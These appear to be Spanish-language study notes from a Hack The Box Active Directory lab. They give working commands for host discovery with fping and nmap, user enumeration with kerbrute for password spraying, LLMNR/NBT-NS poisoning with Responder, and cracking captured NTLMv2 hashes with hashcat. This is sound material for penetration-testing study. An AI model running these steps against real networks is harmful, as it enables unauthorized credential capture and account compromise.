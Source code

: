 #enum

## Key data points

|**Elemento**|**Descripción**|
|---|---|
|`AD Users`|Enumerar usuarios para password spraying.|
|`AD Joined Computers`|Identificar DCs, servidores SQL, web, Exchange, etc.|
|`Key Services`|Kerberos, NetBIOS, LDAP, DNS.|
|`Vulnerable Hosts`|Buscar hosts rápidos de explotar.|

## Herramientas
- Identificación pasiva seguida de validación activa 
### `fping`: Búsqueda masiva de IP´s por ICMP
```bash
fping -asgq 172.16.5.0/23
```
- Después podemos utilizar nmap con los targets obtenidos
	```bash
	sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum -oN allTargets
	```
### `kerbrute`: Enumerar usuarios
Interesante utilizar junto con listas como `jsmith.txt` o `jsmith2.txt` de [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames)
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
Si da algún problema con el output, se pueden conseguir los mismos resultados del siguiente modo: 
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
cat valid_ad_users | grep VALID | awk '{print $7}' > usernamesDomain.txt
```
## LLMNR/NBT-NS Possoning
[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) son métodos alternativos de resolución de nombres que pueden ser usados cuando falla el DNS. Cualquier host puede responder utilizando alguno de los protocolos mencionados. 
## Linux - `responder`
### Configuración - `responder.conf`
Se pueden configurar los protocolos sobre los que actúar. Por defecto alojado en: 
```
/usr/share/responder
```
### Logs
Además de mostrar por pantalla los logs, responder guarda en un log la información recopilada: 
```
/usr/share/responder/logs
```
### Responder con configuración por defecto
```bash
sudo responder -I ens224
```
### Craquear NTMLv2 con hashcat
El hash que se captura en el paso anterior es un hash NTMLv2 ( [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)) 
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

